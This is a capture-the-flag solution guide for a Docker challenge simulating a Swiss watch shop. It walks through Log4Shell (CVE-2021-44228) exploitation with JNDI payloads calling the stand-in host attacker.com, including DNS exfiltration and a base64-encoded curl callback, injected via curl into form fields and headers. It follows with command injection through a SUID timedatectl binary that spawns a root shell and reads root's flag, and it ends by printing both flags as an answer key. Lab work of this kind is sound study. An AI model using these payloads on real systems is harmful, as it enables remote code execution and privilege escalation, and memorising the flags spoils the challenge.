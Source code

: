 # Horloger Suisse - CTF Exploitation Guide

## Challenge Overview

This challenge simulates a Swiss clockmaker boutique vulnerable to Log4Shell (CVE-2021-44228) leading to privilege escalation.
Run with : docker run -d --network host --name horloger-host horloge
## Phase 1: Web Exploitation (Log4j RCE)

### Vulnerable Entry Points

1. **Contact Form** (`POST /contact`)
   - Parameters: `name`, `email`, `message`
   - Headers: `User-Agent`, `X-Client-Info`

2. **Search Functionality** (`GET /search?q=`)
   - Parameter: `q` (search query)

3. **Timepiece Viewing** (`GET /timepiece/{id}`)
   - Path parameter: `id`

### Sample Log4j Payloads

```bash
# Basic LDAP callback test
${jndi:ldap://attacker.com:1389/exploit}

# DNS exfiltration 
${jndi:dns://logs.attacker.com/}

# HTTP callback
${jndi:ldap://attacker.com:1389/Basic/Command/Base64/Y3VybCBodHRwOi8vYXR0YWNrZXIuY29tL2NhbGxiYWNr}
```

### Exploitation Examples

#### 1. Via Contact Form
```bash
curl -X POST http://target:8080/contact \
  -d "name=Test&email=test@test.com&message=\${jndi:ldap://attacker.com:1389/exploit}" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

#### 2. Via Search Parameter
```bash
curl "http://target:8080/search?q=\${jndi:ldap://attacker.com:1389/exploit}"
```

#### 3. Via User-Agent Header
```bash
curl -X POST http://target:8080/contact \
  -d "name=Test&email=test@test.com&message=Hello" \
  -H "User-Agent: \${jndi:ldap://attacker.com:1389/exploit}" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

#### 4. Via Custom Header
```bash
curl -X POST http://target:8080/contact \
  -d "name=Test&email=test@test.com&message=Hello" \
  -H "X-Client-Info: \${jndi:ldap://attacker.com:1389/exploit}" \
  -H "Content-Type: application/x-www-form-urlencoded"
```

## Phase 1.5: Getting User Flag

After gaining RCE as `www-data`:

1. **Find the user flag**:
   ```bash
   # Flag is in /var/www/user.txt, readable by www-data
   cat /var/www/user.txt
   
   # Or discover it by exploring the web directory
   ls -la /var/www/
   ```

## Phase 2: Privilege Escalation

### Discovery
After gaining shell access as `www-data`, look for:

1. **System notes with hints**:
   ```bash
   cat /opt/horloger/system_notes.txt
   ```

2. **Cron jobs mentioning timedatectl**:
   ```bash
   cat /etc/cron.d/horloger
   ```

3. **SUID binaries**:
   ```bash
   find / -perm -4000 2>/dev/null | grep timedatectl
   ```

### Exploitation

The custom `timedatectl` binary has a command injection vulnerability in the `set-timezone` function:

```bash
# Exploit the command injection
/usr/local/bin/timedatectl set-timezone "Europe/Zurich; id; #"

# Get a root shell
/usr/local/bin/timedatectl set-timezone "Europe/Zurich; bash; #"

# Read the root flag
/usr/local/bin/timedatectl set-timezone "Europe/Zurich; cat /root/root.txt; #"
```

## Flags

- **User flag**: `/var/www/user.txt` - `flag-l0g4j_t1m3_1s_pr3c10us_sw1ss_h0rl0g3r`
- **Root flag**: `/root/root.txt` - `flag-t1m3_1s_r00t_sw1ss_m4st3r_h0rl0g3r_rul3s_th3_t1m3`